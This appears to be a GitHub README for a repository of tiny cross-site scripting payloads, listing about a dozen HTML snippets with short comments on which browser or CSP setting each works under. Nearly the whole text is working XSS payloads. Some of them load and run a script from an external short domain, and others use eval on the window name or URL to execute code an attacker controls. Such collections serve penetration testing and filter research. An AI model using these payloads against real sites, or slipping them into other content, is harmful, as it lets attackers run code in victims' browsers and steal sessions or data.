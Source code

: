 # Tiny-XSS-Payloads
Repository containing tiny XSS payloads for different contexts.

The DEMO available here: <https://terjanq.github.io/Tiny-XSS-Payloads/index.html>


## Current Payloads


```html
<!-- If you control the name, will work on Firefox in any context, will fail in chromium in DOM -->
<svg/onload=eval(name)>

<!-- If you control the URL, Safari-only -->
<iframe/onload=write(URL)>

<!-- If you control the URL -->
<svg/onload=eval(`'`+URL)>

<!-- If you controll the name, but unsafe-eval not enabled -->
<svg/onload=location=name>

<!-- Just a casual script -->
<script/src=//Ǌ.₨></script>

<!-- If you control the name of the window -->
<iframe/onload=src=top.name>

<!-- If you control the URL -->
<iframe/onload=eval('`'+URL)>

<!-- If number of iframes on the page is constant -->
<iframe/onload=src=top[0].name+/\Ǌ.₨?/>

<!-- for Firefox only -->
<iframe/srcdoc="<svg><script/href=//Ǌ.₨ />">

<!-- If number of iframes on the page is random -->
<iframe/onload=src=contentWindow.name+/\Ǌ.₨?/>

<!-- If unsafe-inline is disabled in CSP and external scripts allowed -->
<iframe/srcdoc="<script/src=//Ǌ.₨></script>">
```